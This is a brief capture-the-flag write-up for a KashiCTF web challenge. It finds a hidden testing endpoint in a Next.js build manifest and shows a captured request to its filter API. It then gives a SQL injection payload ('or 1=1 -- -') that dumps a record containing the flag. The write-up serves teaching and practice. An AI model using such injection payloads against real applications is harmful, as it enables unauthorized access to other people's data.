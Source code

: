 In sources, in `_next/static`, open the bkat3... folder. 

In the build manifest file, we find a /v2-testing endpoint

On this page we have different filters, with the associated request:
```
POST /api/list-v2 HTTP/1.1
Host: kashictf.iitbhucybersec.in:58459
Content-Length: 20
Accept-Language: en-GB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://kashictf.iitbhucybersec.in:58459
Referer: http://kashictf.iitbhucybersec.in:58459/v2-testing
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"filter":"Finance"}
```


This chall is a simple SQL injection in the filter value:
`{"filter":"Finance' or 1=1 -- -"}`
gives us
```
{"employee_name":"peter.johnson","request_detail":"Shitty job, I hate working here, I will leak all important information like KashiCTF{s4m3_old_c0rp0_l1f3_w0Gt3b4b}","status":"denied","department":"Logistics","role":"Supply Chain Manager","email":"peter.johnson@corp.com"}
```
